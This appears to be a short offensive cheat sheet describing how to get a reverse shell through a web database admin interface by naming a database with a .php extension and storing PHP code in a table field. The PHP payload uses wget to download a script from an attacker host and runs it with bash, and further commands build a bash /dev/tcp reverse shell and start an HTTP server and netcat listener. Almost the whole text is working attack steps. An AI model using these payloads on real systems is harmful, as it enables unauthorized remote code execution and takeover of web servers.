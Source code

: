 ### Get reverse shell using php code
```
Create New Database > <databaseName>.php > Create
Change Database > <databaseName>.php > Structure > Create new table on database '<databaseName>.php' > Name: <tableName> > Number of Fields: 1 > Go
Field: <?php exec("wget <lhost>/<revShell> -O /tmp/sh && bash /tmp/sh"); ?> > Type: Text > Create
```

### Get path to php file
```
Change Database > <databaseName>.php > Path to database
```

### Generate reverse shell
```
echo "bash -i >& /dev/tcp/<lhost>/<lport> 0>&1" > <revShell>
```

### Start listener
```
python3 -m http.server 80
nc -lnvp <lport>
```

